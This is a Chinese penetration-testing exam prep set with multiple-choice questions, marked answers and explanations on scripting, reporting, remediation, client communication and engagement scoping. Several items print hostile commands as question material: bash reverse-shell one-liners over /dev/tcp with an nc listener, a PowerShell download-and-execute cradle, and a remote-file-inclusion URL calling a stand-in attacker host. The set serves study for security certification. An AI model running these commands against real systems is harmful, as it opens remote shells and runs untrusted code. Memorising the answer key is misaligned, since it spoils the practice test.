2. **Ncat**
3. **Netcat**
4. Powersploit
5. Searchsploit

## 41.

你是一名渗透测试员，正在为一位新客户进行测试。你正在编写以下 Python 代码：

```python
if 1 == 1:
    print("howdy")
elif 3 == 3:
    print("howdy")
else:
    print("howdy")
```

这段代码将打印 `howdy` 这个词多少次？

1. 0
2. **1**
3. 2
4. 3

## 42.

你是一名渗透测试员，正在为一位新客户进行测试。你正在分析一个脚本，以确定为什么该脚本没有返回预期的正确结果。预期结果应为 True。

```bash
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```

通过查看脚本，你应该如何纠正错误以返回正确的结果？（选择两项。）

1. 将 "fi" 改为 "EndIf"。
2. 移除 dest=5+5 前面的 "let"。
3. **将 "=" 改为 "-eq"。**
4. **将 "'source'" 和 "'dest'" 改为 "$source" 和 "$dest"。**
5. 将 "else" 改为 "elif"。

## 43.

你是一名渗透测试员，正在为一位新客户进行测试。你想使用 PowerShell 脚本创建一个数组。你会使用哪行代码？

1. **$ports = 20, 25, 80, 443**
2. ports = (20,25,80,443)
3. ports = [20,25,80,443]
4. $ports= [20,25,80,443]

## 44.

你是一名渗透测试员，正在为一位新客户进行测试。你打算在客户的系统上运行以下命令：

*   `bash -i >& /dev/tcp/10.2.4.6/443 0>&1`

为了使上述命令生效，还需要在你的 Linux 系统上执行什么附加命令？

1. **nc -nvlp 443**
2. nc 10.2.4.6 443
3. nc -w3 10.2.4.6 443
4. nc-/bin/ah 10.2.4.6 443

## 45.

你是一名渗透测试员，正在为一位新客户进行测试。你正在使用 PowerShell 进行测试。你正在使用以下 PowerShell 命令：

*   `powershell.exe IEX (New-Object Net.Webclient).downloadstring("http://site/script.ps1");Invoke-Command`

此命令执行什么操作？

1. **它执行远程脚本。**
2. 它合并一个对象。
3. 它运行编码命令。
4. 它设置执行策略。

## 46.

你是一名渗透测试员，正在为一位新客户进行测试。你通过使用端口 443 访问了一个无限制的系统网络。你想从客户端创建一个反向 Shell 回连到你的计算机。你最可能使用哪种方法？

1. **bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1**
2. nc -e /bin/sh <SOURCEIP> 443
3. perl -e 'use SOCKET'; $i='<SOURCEIP>; $p='443;
4. ssh superadmin@<DESTINATIONIP> -p 443

## 47.

你是一名渗透测试员，正在为一位新客户进行测试。在渗透测试期间，在一台被利用机器的历史文件中发现了以下代码行：

*   `bin/bash -i >& /dev/tcp/192.168.0.10/80 0> &1`

以下哪项最能描述此命令行的作用？

1. 执行了端口扫描。
2. 它获取 Web 服务器的横幅信息。
3. **它将电传打字机 (TTY) 重定向到远程系统。**
4. 它删除给定 IP 的错误日志。

## 48.

你是一名渗透测试员，正在为一位新客户完成测试。测试完成后，你正在为执行摘要确定调查结果和建议的优先级。以下哪项考虑因素对你的客户最有益？

1. 补丁和其他补救措施的可用性
2. 利用已识别漏洞的难度级别
3. **客户组织的风险承受能力**
4. 完成每个步骤所花费的时间

## 49.

你是一名安全分析师，刚刚为一位新客户完成了渗透测试。你正在撰写执行摘要。撰写执行摘要时，以下哪项是不合适的？

1. 你应该包含所有调查结果和漏洞的描述。
2. 你应该包含所有发现漏洞的风险声明。
3. 你应该确保其使用通俗易懂的语言编写。
4. **你应该包含与测试相关的所有技术细节。**

## 51. 渗透测试报告中的 CVSS 基础分评估


## 渗透测试场景题

### 1. CVSS 1.0 漏洞利用难度
你是一名渗透测试员，刚完成对新客户的测试。一份详细的渗透测试报告已交付给安全分析师。渗透测试针对客户的 DMZ 环境进行。报告中有一项发现，其通用漏洞评分系统（CVSS）基础分为 1.0。利用此漏洞需要哪种难度级别？

1.  非常困难，因为外围系统通常位于防火墙之后
2.  有点困难，因为利用它需要强大的处理能力
3.  **微不足道，因为利用该发现只需很少的工作量**
4.  不可能，因为外部主机已加固以防范攻击

### 2. 风险等级在报告中的位置
你是一名渗透测试员，正在为新客户规划测试。你正在撰写一份概述对运营总体风险等级的报告。应在报告的哪个部分包含此信息？

1.  附录
2.  **执行摘要**
3.  主体
4.  技术摘要

### 3. 关键漏洞的首要响应措施
你是一名安全分析师，正在审查针对内网服务执行的最近一次内部漏洞扫描结果。扫描报告显示存在一个关键漏洞。报告内容如下：

*   **标题**：Web 服务器远程命令执行漏洞
*   **评级**：严重（CVSS 10.0）
*   **威胁行为者**：Web 服务器的任何远程用户
*   **置信度**：确定
*   **建议**：应用供应商补丁

你首先应该做什么？

1.  应用风险评级及其对组织的影响。
2.  利用该服务器以确定扫描是否报告了误报。
3.  向高级管理层通报该漏洞。
4.  **安排关键的带外修补。**

### 4. 测试细节与结果的报告章节
你是一名渗透测试员，刚完成对新客户的测试。你正在创建测试后的书面发现报告。在报告的哪个部分应向读者提供所执行测试及发现结果的深度大纲？

1.  执行摘要部分
2.  **发现与修复部分**
3.  方法论部分
4.  指标与度量部分

### 5. 建议列表的报告章节
你是一名渗透测试员，刚完成对新客户的测试。你正在创建测试后的书面发现报告。根据测试结果，你列出了一份建议清单，认为客户应重点关注。应在报告的哪个部分放置这些建议？

1.  结论部分
2.  执行摘要部分
3.  **发现与修复部分**
4.  方法论部分

### 6. 交付后清理阶段的活动
你是一名渗透测试员，刚完成对新客户的测试。你正在进行交付后清理。交付后清理阶段执行哪些活动？（选择三项。）

1.  修复漏洞
2.  **移除所用的任何工具**
3.  **移除 Shell**
4.  **移除测试员创建的凭据**

### 7. 缺少数据擦除工具的问题复盘阶段
你是一名渗透测试员，刚完成对新客户的测试。测试后清理时发现客户没有必要的数据擦除工具。随后将所需工具分发给了需要的技术人员。应在哪个阶段重新审视此问题？

1.  **经验教训阶段**
2.  缓解阶段
3.  准备阶段
4.  报告阶段

### 8. 确保交付后清理顺利进行的做法
你是一名渗透测试员，正在为新客户进行测试。测试即将完成，你希望确保交付后清理过程没有问题。在整个测试阶段应该怎么做，以确保交付后工作轻松进行？

1.  你应该创建后门以便稍后访问。
2.  **你应该仔细记录测试期间所做的一切。**
3.  你应该擦除利用过程中创建的任何日志条目。
4.  你应该为所有系统和设备创建镜像，以便将它们恢复到测试前的状态。

### 9. 交付后清理过程中的操作
你是一名渗透测试员，刚完成对新客户的测试。你正在进行交付后清理过程。在交付后清理过程中应该做什么？（选择两项。）

1.  **确保移除测试期间创建的任何 Shell 会话。**
2.  确保向客户隐藏测试期间所做的一切。
3.  **确保记录测试期间所做的一切。**
4.  确保隐藏测试后清理期间所做的一切。

### 10. 履行合同责任的证明文件
你是一名渗透测试员，刚完成对新客户的测试。你正在与客户会面讨论渗透测试。会议结束时，你要求客户签署一份协议，声明你已根据合同履行了职责。这叫什么？

1.  发现证明
2.  **客户验收**
3.  后续行动/重测
4.  经验教训

### 11. 合规性证明文件
你是一名渗透测试员，刚完成对新客户的测试。你正在与客户会面讨论渗透测试。会议期间，你向客户提供一份文件，声明你已进行测试，且客户符合其政府合同之一规定的规则和法规。这叫什么？

1.  **发现证明**
2.  客户验收
3.  后续行动/重测
4.  经验教训

### 12. 初级技术人员发现严重漏洞的上报方式
某组织 IT 部门的一名初级技术人员对企业 Web 应用程序运行渗透测试。测试期间，技术人员发现该应用程序可泄露一个包含所有企业用户帐户和密码信息的 SQL 表。初级技术人员应如何通知高层管理人员？

1.  技术人员应使用此信息连接到 SQL 服务器，并更改一些非关键帐户的密码，以向管理层演示概念验证。
2.  **技术人员应使用执行摘要记录发现，包括建议和屏幕截图，并提供给管理层。**
3.  技术人员应通知开发团队这一发现，并建议在 Web 应用程序的 SQL 查询字符串上强制执行输入验证。
4.  技术人员应要求管理层创建提案请求（RFP），以开始与专业渗透测试公司的正式合作。

### 13. 邮件内容过滤属于哪类补救活动
你和同事正在讨论某组织实施电子邮件内容过滤的场景，以阻止看似来自内部来源但未经过适当身份验证的入站消息。他们还可能过滤掉任何包含高风险关键字或似乎来自已知恶意来源的消息。这种常见的补救活动类别属于哪一类？

1.  度量
2.  人员
3.  流程
4.  **技术**

### 14. 多因素认证的示例
你和同事正在讨论多因素认证。同事请你举一个多因素认证的例子。你会告诉同事什么？

1.  多因素认证是使用生物特征指纹和语音识别
2.  **多因素认证是使用智能卡和 PIN 码**
3.  多因素认证是使用视网膜扫描和语音识别
4.  多因素认证是使用用户名、PIN 码和员工 ID 号

### 15. 多因素认证类别
你和同事正在讨论不同的多因素认证类别。例如：员工使用带有认证令牌的钥匙扣，该令牌生成一次性密码，必须在登录时使用。此场景属于哪种多因素认证类别？

1.  Something you are（生物特征）
2.  **Something you have（拥有因素）**
3.  Something you know（知识因素）
4.  Something you need（需求因素）

> **解析**：钥匙扣和令牌属于用户持有的物理设备，属于“拥有因素”。

---

### 16. 公共 Web 服务器高位端口监听
你是一名渗透测试人员，正在为新客户进行测试。你注意到公共 Web 服务器上有多个高位端口处于监听状态。客户表示他们仅使用端口 443 运行应用程序。你应该向客户提出什么建议？

1.  **That they disable the unneeded services（禁用不需要的服务）**
2.  That they filter port 443 to specific IP addresses（将端口 443 过滤至特定 IP 地址）
3.  That they implement a web application firewall（实施 Web 应用防火墙）
4.  That they transition the application to another port（将应用程序迁移至其他端口）

> **解析**：减少攻击面的最佳实践是关闭不必要的服务/端口。

---

### 17. SQL 注入漏洞缓解
你是一名渗透测试人员，正在为新客户进行测试。你成功在文本框中输入 SQL 注入命令并访问了数据库中存储的信息。你应该建议客户采取什么措施来缓解该漏洞？

1.  **That they implement input normalization（实施输入规范化/验证）**
2.  That they install host-based intrusion detection（安装基于主机的入侵检测）
3.  That they perform system hardening（执行系统加固）
4.  That they randomize the credentials used to log in（随机化登录凭据）

> **解析**：SQL 注入的核心防御是输入验证、参数化查询或输入规范化。

---

### 18. 多协议漏洞利用导致服务器沦陷
你是一名渗透测试人员，正在为新客户进行测试。客户要求你测试多台 Web 服务器的安全性。你通过利用 DNS、FTP、IMAP、POP、SMTP 和 Telnet 相关的漏洞，在多台服务器上获得了 root/管理员访问权限。你应该建议客户如何更好地保护其 Web 服务器？

1.  **They should disable any unnecessary services.（禁用任何不必要的服务。）**
2.  They should increase application event logging.（增加应用程序事件日志记录。）
3.  They should use a honeypot.（使用蜜罐。）
4.  They should use Transport Layer Security (TLS).（使用传输层安全性 (TLS)。）

> **解析**：服务器运行了过多不必要的网络服务（FTP、Telnet 等），应遵循最小化原则禁用非业务必需服务。

---

### 19. 本地管理员密码重用问题
你是一名渗透测试人员，刚完成新客户的测试。在回顾结果时，你发现客户在所有系统上使用相同的本地管理员密码。可以使用什么工具来帮助解决此问题？

1.  **Local Administrator Password Solution (LAPS)**
2.  Limited Administrator Password Assistance (LAPA)
3.  Nessus
4.  Metasploit

> **解析**：`LAPS` 是微软提供的解决方案，用于自动管理并定期轮换每台机器唯一的本地管理员密码。

---

### 20. 横向移动缓解策略
你是一名渗透测试人员，正在为新客户进行测试。测试期间，你攻破了一台工作站，随后在域内几乎无阻碍地横向移动。你应该在报告中推荐哪些缓解策略？（选择三项。）

1.  That they apply additional network access control（应用额外的网络访问控制）
2.  That for all logons, they require multifactor authentication（所有登录要求多因素认证）
3.  **That for each machine, they randomize local administrator credentials（为每台机器随机化本地管理员凭据）**
4.  **That for local administrators, they disable remote logons（禁用本地管理员的远程登录）**
5.  That they increase the minimum password complexity requirements（增加最低密码复杂度要求）
6.  That they put each host into its own virtual local area network (VLAN)（将每台主机放入各自的 VLAN）
7.  That on every workstation, they enable full-disk encryption（在每台工作站上启用全盘加密）

> **解析**：针对利用相同本地管理员密码进行横向移动的核心对策是：`LAPS` 随机化密码（3）、禁用本地管理员远程登录（4）、网络分段/访问控制限制横向连接（1 或 6）。标准答案通常为 1, 3, 4。

---

### 21. 远程文件包含 (RFI) 攻击修复
你是一名渗透测试人员，正在为新客户进行测试。你正在监控 Web 应用防火墙 (`WAF`) 日志，发现针对以下 URL 的攻击成功：

`https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php`

为防止此类攻击再次发生，应采取什么修复措施？

1.  Block URL redirections.（阻止 URL 重定向。）
2.  Double URL encode the parameters.（对参数进行双重 URL 编码。）
3.  **From the application, stop external calls.（从应用程序层面停止外部调用。）**
4.  Implement a blacklist.（实施黑名单。）

> **解析**：这是典型的远程文件包含 (`RFI`) 攻击。根本修复是代码层面禁止动态包含外部资源（禁用 `allow_url_include` 等），即停止外部调用。

---

### 22. 钓鱼获取凭据及哈希破解修复
你是一名渗透测试人员，正在为新客户进行测试。在尝试钓鱼攻击时，你从 IT 部门成员处获取了初始 VPN 用户域凭据。随后通过 VPN 获取哈希并利用字典攻击轻松破解。你应该向客户推荐什么修复措施？（选择三项。）

1.  **Recommend increased password complexity requirements.（建议增加密码复杂度要求。）**
2.  **Recommend implementing two-factor authentication for remote access.（建议为远程访问实施双因素认证。）**
3.  Recommend installing an intrusion prevention system.（建议安装入侵防御系统。）
4.  Recommend installing a security information event monitoring solution.（建议安装安全信息事件监控解决方案。）
5.  Recommend preventing members of the IT department from interactively logging in as administrators.（建议阻止 IT 部门成员以管理员身份交互式登录。）
6.  **Recommend requiring that all employees take security awareness training.（建议要求所有员工接受安全意识培训。）**
7.  Recommend upgrading the cipher suite used for the VPN solution.（建议升级 VPN 解决方案使用的密码套件。）

> **解析**：
> - 钓鱼成功 -> 安全意识培训 (6)。
> - 密码被字典破解 -> 增加复杂度 (1)。
> - VPN 仅凭密码登录 -> 启用 MFA/2FA (2)。

---

### 23. 仅使用基础认证的互联网应用修复
你是一名渗透测试人员，正在为新客户进行测试。完成面向互联网应用程序的测试后，你发现该应用程序仅使用基础认证。你应该向客户推荐的最佳修复策略是什么？

1.  That they enable HTTP Strict Transport Security (HSTS)（启用 HTTP 严格传输安全 (HSTS)）
2.  That they enable a secure cookie flag（启用安全 Cookie 标志）
3.  **That they encrypt the communication channel（加密通信通道）** / 迁移至现代认证机制（如 OAuth, 基于表单的认证配合 HTTPS）
4.  That they sanitize invalid user input（清理无效用户输入）

> **解析**：基础认证 (`Basic Auth`) 仅将凭据 Base64 编码传输，极不安全。首要对策是强制使用 HTTPS 加密通道，防止凭据窃听。选项 3 最直接针对“明文传输”这一核心缺陷。

---

### 24. 渗透测试中必须与客户沟通的情况
你是一名渗透测试人员，正在为新客户进行测试。测试过程中，你需要与客户沟通。以下哪种情况会导致这种沟通发生？（选择两项。）

1.  **Following an attempted test, the system becomes unavailable.（测试尝试后，系统变得不可用。）**
2.  **The system shows an indication of prior unauthorized access.（系统显示先前未经授权访问的迹象。）**
3.  The system shows a lack of complete hardening.（系统显示缺乏完整的加固。）
4.  The tester discovered individually identifiable data on the system.（测试人员在系统上发现可识别个人身份的数据。）
5.  The tester discovers something that is on an out-of-scope system.（测试人员发现超出范围系统上的内容。）

> **解析**：
> - (1) 造成拒绝服务，必须立即汇报。
> - (2) 发现活跃入侵或历史入侵痕迹，属于紧急发现，必须立即汇报。
> - (3)(4)(5) 属于常规发现，写入最终报告即可，通常不要求中途紧急沟通（除非合同特别约定）。

---

### 25. 预算有限时的漏洞修复优先级
你是一名渗透测试人员，刚完成新客户的测试。报告列出了共 9 个漏洞，其中 4 个被判定为严重。客户预算不足，无法立即修复所有漏洞。在该情况下，你建议客户的最佳选项是什么？


## 1. 漏洞修复优先级策略

1.  对严重漏洞应用简易补偿控制以降低风险，然后重新确定修复优先级
2.  找出修复最快的漏洞优先处理
3.  先实施影响最小的严重漏洞修复，再处理其他严重漏洞
4.  **首先修复最严重的漏洞，即使这意味着修复其他漏洞可能需要更长时间**

> **解析**：风险管理原则：优先处理风险最高（严重级别最高）的漏洞。补偿控制是临时方案，但核心策略是“先修最严重的”。

---

## 76. 发现严重漏洞的即时响应

你是一名渗透测试人员，正在为新客户进行测试。在测试客户的核心服务器期间，你发现了一个严重漏洞。接下来你应该怎么做？

1.  完成测试，整理所有发现，然后提交给客户
2.  **立即通知客户并提供发现的详细信息**
3.  在目标机器上，禁用受影响服务的网络端口
4.  使目标机器脱机，使其无法被利用

> **解析**：渗透测试道德规范与标准流程：发现严重/紧急漏洞（如核心服务器 RCE）必须**立即通知**客户，由客户决定如何处置（下线、打补丁等），测试人员无权擅自操作客户生产环境（选项 3、4 越权）。

---

## 77. 物理安全测试中的去冲突机制

你的公司受邀执行物理安全评估。测试期间，一名人员因“尾随”进入客户设施被抓获。该人员声称自己是渗透测试人员，并要求释放。在对闯入者提起非法侵入指控前，客户 IT 部门成员致电你的办公室，核实该闯入者是否真属于渗透测试团队。这种通信路径称为什么？

1.  **De-confliction（去冲突/协调机制）**
2.  De-escalation（缓和/降级）

> **解析**：`De-confliction` 指在渗透测试（特别是物理/红队）开始前建立的联络机制，用于当测试人员被抓获或触发警报时，由客户方联系测试方指挥中心核实身份，避免误报警、误抓捕或法律冲突。`De-escalation` 指局势升级时的缓和手段。

---

## 目标重新确定优先级

## 态势感知

## 78. 场景题：DDoS 攻击期间的通信路径

你是一名渗透测试人员，正在为新客户进行测试。测试期间，客户开始收到客户投诉，称网站响应缓慢或崩溃。客户的网络管理员发现，一场针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击正在进行中。销售额开始下降，因此网络管理员联系你，要求你停止 DDoS 攻击。这种通信路径叫什么？

1.  去冲突
2.  降级
3.  目标重新确定优先级
4.  态势感知

## 79. 场景题：黑盒测试阶段推进的通信触发器

你是一名渗透测试人员，计划为新客户进行黑盒渗透测试。你已完成测试的侦察阶段，现准备进入下一测试阶段。但在此之前，你联系客户告知测试将继续进行。这里使用了哪种类型的通信触发器？

1.  关键发现
2.  通信路径
3.  态势感知
4.  阶段

## 80. 场景题：灰盒测试中发现关键漏洞的通信触发器

你是一名渗透测试人员，正在为新客户进行灰盒渗透测试。测试期间，你发现客户的许多 Windows 桌面系统未打补丁，容易受到攻击。你没有等到测试结束，而是联系客户警告其系统需要更新以防止意外攻击。这里使用了哪种类型的通信触发器？

1.  关键发现
2.  通信路径
3.  态势感知
4.  阶段

---

## 附录

## 答案与解析

## 第 1 章：规划与界定渗透测试

1.  **C**. 渗透测试流程的第一步是与客户合作，明确定义测试范围。范围决定了渗透测试人员将做什么以及如何分配时间。研究组织产品是在定义工作范围后可能执行的任务。确定预算和获得授权通常是整体范围界定过程中的子任务。

2.  **D**. 红队评估通常比普通渗透测试更具针对性。红队模拟攻击者，以获取访问权限为目标，瞄准敏感数据或系统。基于目标的评估通常旨在评估组织的整体安全性。合规性评估旨在测试对特定法律的遵守情况。

3.  **C**. 因为患者记录受美国 `HIPAA` 法律保护，这是一个合规性评估的例子。合规性评估旨在测试对特定法律的遵守情况。基于目标的评估通常旨在评估组织的整体安全性。灰盒和白盒评估标识攻击者对组织的了解程度。

4.  **D**. 白盒测试是在完全了解目标组织网络的底层技术、配置和设置的情况下进行的。在黑盒测试中，测试人员不获得目标环境的访问权限或信息。基于目标的评估通常旨在评估组织的整体安全性。

5.  **A**. 灰盒测试可能向渗透测试人员提供一些环境信息，但不提供完全访问权限、凭据或配置细节。白盒测试是在完全了解底层网络的情况下进行的。在黑盒测试中，测试人员不获得目标环境的访问权限或信息。合规性评估旨在测试对特定法律的遵守情况。

6.  **B**. 黑盒测试有时称为*零知识*测试，因为它们复制了典型外部攻击者会遇到的情况。测试人员不获得任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能向渗透测试人员提供一些环境信息，但不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。

7.  **C**. 灰盒测试可能向渗透测试人员提供一些环境信息，但不提供完全访问权限、凭据或配置细节。合规性评估旨在测试对特定法律的遵守情况。在黑盒测试中，测试人员不获得目标环境的访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。

8.  **B**. 在黑盒测试中，测试人员不获得目标的任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能向渗透测试人员提供一些环境信息，但不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。

9.  **D**. 白盒测试是在完全了解目标组织网络的底层技术、配置和设置的情况下进行的。灰盒测试可能向渗透测试人员提供一些环境信息，但不提供完全访问权限。在黑盒测试中，测试人员不获得目标环境的访问权限或信息。基于目标的评估通常旨在评估组织的整体安全性。

10. **A**. 灰盒测试是黑盒和白盒测试的混合。灰盒测试通常向渗透测试人员提供关于目标的有限信息，但不提供完全访问权限、凭据或配置信息。灰盒测试有助于集中渗透测试人员的时间和精力，同时提供攻击者实际会遇到情况的更准确视图。在黑盒测试中，测试人员不获得目标环境的访问权限或信息。基于目标的评估通常旨在评估组织的整体安全性。白盒测试是在完全了解底层网络的情况下进行的。

11. **A**. 脚本小子是指使用更高级黑客编写的代码进行攻击的个人。黑客活动家的攻击通常具有政治动机。有组织犯罪行为者通常是高度组织化的网络犯罪集团，其主要目标是赚取大量金钱。国家威胁行为者代表国家行事，旨在对敌对国家造成伤害。

12. **D**. 国家资助的攻击者通常在政府机构的指导下行动。攻击通常针对政府承包商，甚至政府系统本身。脚本小子是指使用更高级黑客编写的代码进行攻击的个人。黑客活动家的攻击通常具有政治动机。有组织犯罪威胁行为者是以财务收益为主要目标的网络犯罪集团。

13. **C**. 有组织犯罪威胁行为者是以财务收益为主要目标的网络犯罪集团。有组织犯罪集团发起的攻击持续时间长、资金充足，且通常非常复杂。恶意内部人员攻击是指组织内部人员利用合法获得的凭据发起攻击。黑客活动家的攻击通常具有政治动机。国家威胁行为者代表国家行事，旨在对敌对国家造成伤害。

14. **B.** 黑客活动家的攻击通常是出于政治动机，而非经济动机。通常，他们想要揭露感知到的腐败或为其事业争取关注。脚本小子是指利用更高级黑客编写的代码实施攻击的个人。有组织犯罪威胁行为者是一群以经济利益为主要目标的网络罪犯。国家资助的威胁行为者代表国家行事，旨在对敌对国家造成损害。

15. **D.** 恶意内部人员攻击是指组织内部人员利用其被合法授予的凭证实施攻击。脚本小子是指利用更高级黑客编写的代码实施攻击的个人。黑客活动家的攻击通常是出于政治动机，而非经济动机。有组织犯罪威胁行为者是一群以经济利益为主要目标的网络罪犯。

16. **D 和 E.** 高级持续性威胁（APT）是一种长期的定向攻击，攻击者获得网络访问权限并在较长时间内保持未被检测到的状态。因此，只有有组织犯罪或国家资助的行为者才可能具备实施此类攻击所需的复杂程度和资金。脚本小子、黑客活动家和恶意内部人员通常缺乏实施 APT 所需的技术专长和/或资金。

17. **A 和 C.** 高级持续性威胁（APT）通常针对高价值目标，例如政府、国防承包商、跨国组织和金融组织。在线学习网站、牙科诊所，甚至社区大学通常作为目标的价值不足以支撑发动 APT 攻击。

18. **B.** 黑客活动家的攻击通常是出于政治动机，而非经济动机。恶意内部人员通常是出于报复或经济利益。有组织犯罪行为者最可能是出于经济利益。脚本小子可能有多种动机，例如出名。

19. **B.** 脚本小子可能有多种动机。其中最常见的是寻求关注。他们经常在在线论坛和社交媒体上吹嘘他们的攻击成果。恶意内部人员通常是出于报复或经济利益。有组织犯罪行为者最可能是出于经济利益。国家资助者最可能是出于政治或军事目标。

20. **D.** 因为白盒评估为渗透测试人员提供了关于目标的大量信息，它通常能提供最彻底的评估，且通常所需时间最少。灰盒测试是黑盒和白盒测试的混合。因此，它耗时更长，因为测试人员必须发现更多信息。在黑盒测试中，测试人员不获得对目标环境的访问权限或相关信息，这使得评估不那么完整，且耗时更长。基于目标或基于目的的评估通常旨在评估组织的整体安全性。

21. **A 和 E.** 范围文件必须规定（除其他事项外）执行测试的原因以及目标受众是谁。本题列出的其他选项如有必要可包含在内，但并非必需。

22. **A 和 B.** 交战规则（ROE）应始终包含约定的时间线，以及对专门管辖目标的任何法律的审查，以确保你不会违反它们。你过去测试过的其他组织列表或目标组织竞争对手的列表不太可能在交战规则中指定。目标网络的详细拓扑图可能不会包含在黑盒或灰盒测试中。

23. **B 和 C.** ROE 应明确哪些位置、系统、应用程序或其他潜在目标包含在测试范围内或被排除在外。这应识别可能受测试影响的任何第三方服务提供商，例如 ISP、云服务提供商或安全监控服务。账单和仲裁程序可能会在你和客户之间的总合同中处理，而不在 ROE 中。客户不太可能希望你通知他们的竞争对手你正在测试他们的安全性。

24. **B 和 E.** ROE 应规定你和客户之间沟通的时间和方式。你应该提供每日或每周更新，还是仅在测试完成时报告？ROE 还应规定目标方允许的行为。例如，从事诸如拒绝连接或拉黑等防御行为可能会限制测试的价值。

25. **C.** 口头许可通常被视为不充分。在开始渗透测试之前，你必须获得高级管理层签署的协议，授权你进行测试。如果你的活动被报告给当局，该协议将充当“免于入狱”的保护伞。本场景中描述的其他参数已适当定义。

26. **D.** 本场景中的交战规则已适当定义。例如，定义目标在测试期间允许使用的防御行为是非常合适的。同样，白盒测试可能会包含关于内部网络的详细信息。将第三方服务提供商排除在测试之外也并不罕见。

27. **A.** 因为这是黑盒评估，测试人员不应具备关于待测环境的任何先验知识，也不应拥有对其的特殊访问权限。本质上，他们应从真实攻击者的相同视角攻击客户。在高峰时段暂停测试以避免干扰其关键业务运营是非常合适的。仅在测试完成后与客户沟通也是合适的，尤其是在黑盒评估中。

28. **B.** 测试协议应包含免责声明，表明测试仅在实施的时间点有效，且客户要求的范围和方法会影响测试的全面性。NDA（保密协议）规定了协议各方被允许向第三方披露的内容。仲裁条款仍可能导致对渗透测试顾问不利的和解。仅有 SOW（工作说明书）无法保护你免受此类诉讼，除非它包含前面讨论的时间点条款。

29. **C.** 测试协议或范围文档应包含免责声明，解释客户要求的范围和方法会影响测试的全面性。例如，白盒测试比黑盒测试更有可能发现隐藏漏洞。采购订单是购买商品或服务的具有约束力的协议。MSA（主服务协议）是定义将管辖未来协议条款的协议。黑盒测试可以提供独特的视角，不应被摒弃。

30. **A 和 E.** 在交战规则文档中记录问题处理和解决时，你应明确定义协议双方的升级程序，以帮助将目标组织的停机时间降至最低。你还应包含要求客户确认渗透测试固有风险的条款。约定的时间线连同范围信息也包含在 ROE 中，只是不在问题解决部分。

---

## 渗透测试规划与范围界定

### 31. 交战规则 (ROE)

**D.** `Rules of Engagement (ROE)` 应在渗透测试开始前由双方明确界定并签署。若无 ROE 文件，一旦测试过程中出现问题，您的组织将面临潜在诉讼风险。新客户的审核发生在测试范围界定和 ROE 文件创建过程中。主服务协议 (`MSA`) 定义了管辖未来协议的条款。

### 32. 书面授权要求

**D.** 实施渗透测试前，必须获得目标组织高级管理层的**书面许可**。口头许可或电子邮件许可通常不可接受；IT 员工的许可通常也不被接受。

### 33. 黑盒测试特点

**A.** 在**黑盒渗透测试**中，测试人员对目标**无任何先验知识**，因此最能模拟外部攻击场景。白盒和灰盒测试允许测试人员掌握一定程度的目标先验信息。

### 34. 灰盒测试场景

**A.** **灰盒渗透测试**中，测试人员拥有目标的**部分知识**，可用于模拟普通员工发起的恶意内部攻击。黑盒测试中测试人员无先验知识；白盒测试中测试人员拥有目标的广泛知识。

### 35. 测试成本与时间对比

**C.** 因测试人员对目标零认知，**黑盒测试耗时最长、成本最高**。相反，灰盒和白盒测试因测试人员掌握一定先验知识，通常成本更低、耗时更短。

### 36. 内部邮箱账号测试类型判断

**B.** 测试人员使用内部邮箱账号（典型员工账号）进行测试，属于**灰盒测试**。黑盒测试需使用外部邮箱账号；白盒测试通常使用提权后的特权访问。

### 37. 白盒测试评估深度

**B.** 测试人员获得目标网络的广泛内部访问权限，**白盒测试通常提供最详尽的评估**，可投入更多时间探测深层漏洞，这是黑盒或灰盒测试无法比拟的。

### 38. 范围界定：云服务排除

**A 和 B.** 本场景测试范围仅限内部网络基础设施。`Microsoft Office 365`、`Google Docs` 和 `Microsoft Azure` 均为第三方托管的云服务，属于**范围外**目标。

### 39. 规划核心步骤：书面许可

**A.** 渗透测试规划与范围界定过程中**最关键的步骤是获得目标的书面授权**。无书面许可即视为黑客行为，将受联邦、州及地方计算机犯罪法律制约（如美国法典第 18 编第 47 章第 1029 和 1030 节）。

### 40. 工作说明书 (SOW)

**C.** **工作说明书 (SOW)** 是正式文件，定义渗透测试范围，明确测试具体内容。`MSA` 定义管辖未来协议的条款；`NDA` 规定各方可向第三方披露的信息；采购订单是向供应商采购的具有约束力的协议。

### 41. 保密协议 (NDA)

**B.** **保密协议 (NDA)** 是法律合同，界定可共享与不可共享的机密信息。渗透测试协议中，NDA 通常规定测试人员不得向客户以外的任何方透露测试结果。`SOW` 定义测试范围；`MSA` 管辖未来协议条款；采购订单是采购约束性协议。

### 42. 采购订单的作用

**A.** 通常要求客户签署**采购订单**，这是向供应商采购的约束性协议。有了采购订单，贵组织即可证明投入时间和金钱定义 `SOW` 和 `NDA` 的合理性。因客户处于“试用”服务阶段，暂不需要 `MSA`，但未来可能需要。

### 43. 主服务协议 (MSA)

**A.** **主服务协议 (MSA)** 是双方就管辖未来协议的大多数条款达成一致的合同。通过在 MSA 中预定义条款，未来协议的制定将更简便快捷。采购订单是采购约束性协议；`SOW` 定义渗透测试范围；`NDA` 规定信息披露权限。

### 44. 员工签署协议

**B 和 E.** 作为安全公司员工，您通常需签署**保密协议 (NDA)** 和**竞业禁止协议**。NDA 规定各方对第三方的信息披露权限，雇主不希望您向竞争对手泄露专有信息。竞业禁止协议要求您同意未来不为竞争对手工作或直接与雇主竞争。

### 45. 美国联邦政府 SOW 替代文件

**A 和 B.** 美国联邦政府替代 `SOW` 的文件包括**目标陈述 (SOO)** 和**绩效工作说明书 (PWS)**。采购订单和竞业禁止协议通常不作为 SOW 替代文件。

### 46. 范围内网络要素定义


**D 和 E.** 若客户网络本身在范围内，需将客户**无线网络 SSID** 定义为范围内目标。将客户 **IP 地址范围** 定义为范围内目标同样重要。未经书面许可，不得针对第三方（如邻近租户或云服务提供商）实施测试。

### 47. 测试日志记录重要性

**B.** 所有渗透测试人员必须**详细书面记录**评估期间的操作日志。日志应包含：操作内容、操作时间、使用系统、攻击目标系统及操作结果。切勿仅依赖测试人员或客户的记忆，因其易出错且不完整。

### 48. 目标导向评估示例

